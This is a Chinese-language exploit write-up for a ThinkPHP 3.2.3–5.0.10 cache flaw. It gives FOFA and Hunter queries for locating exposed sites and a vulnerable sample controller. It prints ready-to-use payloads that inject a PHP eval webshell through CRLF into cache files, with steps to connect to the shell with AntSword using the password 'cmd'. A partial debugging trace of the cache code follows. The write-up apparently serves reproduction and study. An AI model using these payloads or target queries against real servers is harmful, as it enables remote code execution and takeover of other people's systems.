

# SSV-96340

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** phpthink3.2.3-5.0.10缓存函数设计缺陷可导致Getshell


## **0x00 空间搜索引擎相关查询语法**

```python
[FOFA]
body="ThinkPHP" && body="版本 V3.2.3"

[鹰图]
web.body="ThinkPHP" && web.body="版本 V3.2.3"
```

## 0x01 漏洞利用前置条件

- 影响范围之内：**phpthink3.2.3-5.0.10**
- 开启缓存功能；
- 能够猜解出缓存文件名（文件名生成有一定规律）
- 缓存内容可控或部分可控，即找到写入的位置（一般与数据库交互的地方）
- 缓存文件名可由泄露的源码已知，或者可猜测，规律为使用常见的名词，如user、news、goods、article，然后对这些名称md5编码。

该漏洞一般配合其他漏洞使用

## 0x02 环境搭建

```php
github下载3.2.3版本   https://github.com/top-think/thinkphp/releases/tag/3.2.3
用phpstorm启动即可
```

## 0x03 漏洞复现

拿到目标版本源码或者知道以上前置条件中的信息后，需要源码文件地址为：`Application/Home/Controller/IndexController.class.php`， 假如文件内容如下：

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"> <h1>:)</h1><p>欢迎使用 <b>ThinkPHP</b>！</p><br/>版本 V{$Think.version}</div><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_55e75dfae343f5a1"></thinkad><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script>','utf-8');
    }

    public function get()
    {
        $a=I('get.id');
        S('id',$a);
    }
    public function post()
    {
        $a=I('gpost.id');
        S('id',$a);
    }
}
```

因此EXP为

```php
// get()函数对应的EXP
http://url/index.php/Home/Index/get?id=%0d%0a@eval($_REQUEST['cmd']);%0d%0a//

// post()函数对应的EXP
GET /index.php/Home/Index/post HTTP/1.1
Host: URL
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

id=%0d%0a@eval($_REQUEST['cmd']);%0d%0a//
```

接着我们使用蚁剑访问以下路径

```php
URL地址：http://URL/Application/Runtime/Temp/文件名md5值.php
密码：cmd

// 文件名指的是 S('postid',$a);第一个参数的值
```



 

## 0x04 利用链分析

先找到漏洞点`Application/Home/Controller/IndexController.class.php`


**知识拓展：**

- 在 ThinkPHP 中，**`I()`** 函数用于获取请求参数。这个函数通常用于从 **`$_GET`**、**`$_POST`**、**`$_REQUEST`** 或其他来源获取参数值，并且它支持点语法来获取嵌套的参数值。
  
    **`I('get.id')`** 表示从 GET 请求参数中获取名为 **`id`** 的参数值。这是通过点语法来指定参数名的，其中 **`get`** 是请求类型（GET 请求），**`id`** 是参数名。
    
    例如，如果你的 URL 是这样的：**`http://example.com/page.php?id=123`**，那么 **`I('get.id')`** 将返回 **`123`**，即 GET 请求中名为 **`id`** 的参数的值。
    
- 在 ThinkPHP 中，**`S()`** 函数用于操作缓存。**`S('id', $a)`** 表示将变量 **`$a`** 存储到名为 **`id`** 的缓存中。
  
    这个函数通常用于将数据存储到缓存中，以便稍后可以通过相同的键来检索它。在这种情况下，**`id`** 是缓存的键，而 **`$a`** 是要存储的值。
    

开启debug模式，对`$a=I('[get.id](http://get.id/)');`增加断点调试


在这里，我们看到了$_config的值


接着我们进入`S('id',$a);`函数内分析


继续跟进


进入该函数继续分析


我们看看connect函数都做了什么事


因此，`$class = strpos($type, '\\') ? $type : 'Think\\Cache\\Driver\\' . ucwords(strtolower($type));` 结果为$_class = 'Think\\Cache\\Driver\\File' 。


跟进， `$cache = new $class($options);`


通过`$_config`和`C('DATA_CACHE_PATH')`可知 `$this->options['temp']`其实等于`./Application/Runtime/Temp/`

继续往下，会发现走到了`$this->init();` 


就是创建缓存目录


由于前面获取到的`"DATA_CACHE_TIME":0` 因此 `$expire=0`

继续跟进set函数


